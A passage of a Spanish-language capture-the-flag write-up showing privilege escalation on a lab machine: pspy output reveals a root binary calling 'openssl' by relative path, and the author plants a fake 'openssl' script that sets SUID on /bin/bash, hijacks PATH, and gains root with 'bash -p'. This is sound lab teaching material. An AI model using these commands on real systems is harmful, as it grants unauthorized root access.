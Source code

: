 Ejecutamos la herramienta `pspy` y ganando acceso a una nueva consola en la máquina `pki` ejecutamos el binario `ersatool` para examinar el output en pspy

```bash
www-data@pki:/tmp$ ./pspy 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
.
.
.
2022/12/18 20:05:21 CMD: UID=0    PID=2069   | ersatool 
2022/12/18 20:05:21 CMD: UID=0    PID=2071   | /bin/sh /opt/easyrsa/easyrsa build-client-full test nopass batch 
2022/12/18 20:05:21 CMD: UID=0    PID=2072   | sed -e s`ENV::EASYRSA`EASYRSA`g -e s`$dir`/opt/easyrsa/pki`g -e s`$EASYRSA_PKI`/opt/easyrsa/pki`g -e s`$EASYRSA_CERT_EXPIRE`36500`g -e s`$EASYRSA_CRL_DAYS`180`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_KEY_SIZE`2048`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_DN`cn_only`g -e s`$EASYRSA_REQ_COUNTRY`US`g -e s`$EASYRSA_REQ_PROVINCE`California`g -e s`$EASYRSA_REQ_CITY`San Francisco`g -e s`$EASYRSA_REQ_ORG`Copyleft Certificate Co`g -e s`$EASYRSA_REQ_OU`My Organizational Unit`g -e s`$EASYRSA_REQ_CN`ChangeMe`g -e s`$EASYRSA_REQ_EMAIL`me@example.net`g /opt/easyrsa/pki/openssl-easyrsa.cnf 
2022/12/18 20:05:21 CMD: UID=0    PID=2073   | openssl version 
2022/12/18 20:05:21 CMD: UID=0    PID=2074   | openssl version 
2022/12/18 20:05:21 CMD: UID=0    PID=2075   | rm /opt/easyrsa/pki/extensions.temp
```

Observamos que la aplicación `ersatool` ejecuta una serie de instrucciones algunas de ellas haciendo referencia a openssl. Mediante `Path Hijacking` nos crearemos nuestra aplicación maliciosa `openssl` la cual aplicará permisos SUID a la bash

```bash
www-data@pki:/tmp$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > openssl
#!/bin/bash
chmod u+s /bin/bash
www-data@pki:/tmp$ export PATH=/tmp/:$PATH
```

Ejecutamos nuevamente la aplicación ersatool y asignamos privilegios SUID a la bash. Con `bash -p` ganamos acceso privilegiado a l máquina víctima. la flag de root la tenemos en el directorio de `/root`
